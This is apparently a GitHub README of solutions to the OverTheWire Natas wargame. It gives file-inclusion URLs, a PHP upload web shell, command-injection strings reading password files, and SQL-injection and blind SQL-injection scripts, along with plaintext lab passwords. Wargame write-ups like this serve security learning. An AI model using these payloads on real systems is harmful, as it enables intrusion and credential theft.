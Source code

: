 # over-the-wire-natas
Did till natas7 b4 creating this repo <br>
Starting from natas7<br><br>
->Natas7<br>
used concept of local file inclusion. open source code(ctrl+U) and hint is given that pwd is in /etc/.../natas8/. observe that url of home and about contains php part.
from "https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion"<br> Typical proof-of-concept would be to load passwd file:
<i>http://vulnerable_host/preview.php?file=../../../../etc/passwd. </i> so just put /etc../natas8 in url instead of about. <br> <br>
->Natas8<br>
nothing in ctrl+U. going to "view sourcecode" will find php code. take the encodedSecret, convert it to ascii, reverse it, decode base64 and lesgoo!! <br><br>
->Natas9<br>
play around. type * and it gives the source code. tried ls -a. # verifies that it's working. ```| cat``` gives entire txt file. or just do http://natas9.natas.labs.overthewire.org/dictionary.txt (as proven by typing ```ls -a``` in search)<br> given at beginning of natas - all pwds are at /etc/natas_webpass/natasX. so type ```| cat /etc/natas_webpass/natas10```.<br>unrelated info: no. of "." (periods) will determine the min. word length. supports regex. type ^.......$ to get 7 letter words only<br><br>
->Natas10<br>
search ```"" cat /etc/natas_webpass/natas11```.<br><br>
->Natas11<br>
WTF. 3 things - key,cipher,plaintext - are reqd. in XOR encryption. to find key do XOR of cipher and plaintext. plaintext = ```{"showpassword":"no","bgcolor":"#ffffff"}```. copy COOKIE, b64 decode it, XOR it using plaintext as key. key will be obtained as repeated pattern. now set showpwd to yes in plaintext and do reverse to find cookie. change value of cookie and reload page.<br><br>
->Natas12<br>
```A malicious file such as a Unix shell script, a windows virus, an Excel file with a dangerous formula, or a reverse shell can be uploaded on the server in order to execute code by an administrator or webmaster later – on the victim’s machine.```<br>
just write a php file with code ```<?php
$output = shell_exec('cat /etc/natas_webpass/natas13');
echo "<pre>$output</pre>";
?>``` and save it with .php extension. then choose it and upload it through burpsuite using proxy. in burpsuite change the file extension in file name to .php and forward the request. open the file on the site to find pwd.<br><br>
->Natas13<br>
bit tricky. take a png file (i took a ss of 140bytes). open "hexed.it" (or any other tool u find useful). upload the png file. now, afaik, png files are recognized by IHDR and IEND tags in the hexdump. so just paste your php code after IEND. save it and follow the prev level steps now. key would be displayed after the hexdump of png file like ```�PNG  IHDR�=M�sRGB���gAMA���a pHYstt�fx!IDAT8Oc�����@`��D�Q ĀQ ĀA���hl� �IEND�B`�z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ```.<br><br>
->Natas14<br>
v simple. sql injection. write username admin. pwd as ```"or '1'='1'"```. yay!<br><br>
->Natas15<br>
itta ni aata, sry. "https://medium.com/@kawsaruddin238/overthewire-natas-level-14-level-15-411de023672c"<br><br>
->Natas16<br>
```
import requests,string
#BLIND SQL INJECTION
#$(command) - command subsitution
url = "http://natas16.natas.labs.overthewire.org"
username = "natas16"
pwd = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

ch = 'qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890'
password=''
for i in range(1,34):
    for char in ch:
        uri = f"{url}?needle=$(grep -E ^{password}{char}.* /etc/natas_webpass/natas17)hackers"
#grep -i "$(grep -E ^{''.join(password)}{char}.* /etc/natas_webpass/natas17)hackers" dictionary.txt
#hackers is a unique word in dictionary. so if anything gets prepended to it through our script,
#then it shouldn't return anything, right. so just add char to password with which nothing gets printed out.     
        r = requests.get(uri, auth=(username,pwd))
        if 'hackers' not in r.text:
            #The text attribute of the response object (r)
            password += char
            print(password)
            break
        else:
            continue
#"https://mcpa.github.io/natas/wargame/web/overthewire/2015/10/01/natas16/"
```
<br><br>
->Natas17<br>
read: "https://owasp.org/www-community/attacks/Blind_SQL_Injection" time-based part. help taken.
```
import requests
import time

url = "http://natas17.natas.labs.overthewire.org"
auth = ("natas17", "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC")
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
cset = ""
for char in characters:
    payload = f'natas18" AND IF(password LIKE BINARY "%{char}%", SLEEP(15), 0) -- '
    start_time = time.time()

    response = requests.get(url, params={"username": payload}, auth=auth)

    elapsed_time = time.time() - start_time
    if elapsed_time > 15:  
        cset += char
print(f"Charset: {cset}")

password = ""
while len(password) != 32:
	for c in cset:
		t = password + c
		username = 'natas18" AND IF(password LIKE BINARY "%s%%",SLEEP(%d), 1)#' % (t, 15)
		r = requests.get(url, auth=auth, params={"username": username}
		)
		s = r.elapsed.total_seconds()
		if s >= 15:
			#print (t)
			password = t
			break
print("password: ",password)
```
<br><br>
->Natas18<br>
"https://stackoverflow.com/questions/1370951/what-is-phpsessid" ```PHP uses one of two methods to keep track of sessions. If cookies are enabled, like in your case, it uses them.``` ig hint is maxid = 640. so just loop through PHPSESSID from 1 to 640 using py script or burpsuite intruder. i used burpsuite sniper attack.<br><br>
->Natas19<br>
```
import requests ```
username = 'natas19'
pwd = 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr'
url = 'http://natas19.natas.labs.overthewire.org/'
#start a session
session = requests.Session()
#the cookie that i got is the hex form of "80-admin"-'38302d61646d696e', so try replacing 80
for x in range(1,641):
    string = (f"{x}"+"-admin").encode('utf-8')
    payload = string.hex()
    print(payload)
    response = session.get(url,cookies={'PHPSESSID':payload}, auth=(username,pwd))
    content = response.text
    if "You are an admin" in content:
        print("yello", x)
        break
    else:
        print ("tried: ", x)

```
<br><br>
->Natas20<br>
pay attention to ```$_SESSION[$parts[0]] = $parts[1];``` in source code and add "/index.php?debug" to url to print debug output. if you put name as "test" output is like read: \[name test\] then newline read: [] so if we make $parts = {'admin','1'} this lvl will be solved, as final condition is ```$_SESSION["admin"] == 1```.
so using burp suite make input of name like "test<newline>admin 1" this goes to mywrite and gets ksort-ed and gets printed as "admin=>1\nname=>test admin 1" and myread reads it after it ksorts it.<br>better would be enter "http://natas20.natas.labs.overthewire.org/index.php?debug&&name=test%0D%0Aadmin%201" and reload 1-2 times so u can see it along with debug. 2nd part is just url encoded "test\nadmin 1".<br>
->Natas21<br>
intercept the request to update styles on 2nd page through burpsuite and add "&admin=1". forward it. if you go to debug page, you can see that it has been added to the session array. simply reloading page1 doesn't work. so copy the cookie of pg2 and replace pg1's cookie with it and then reload :) .<br>
->Natas22<br>





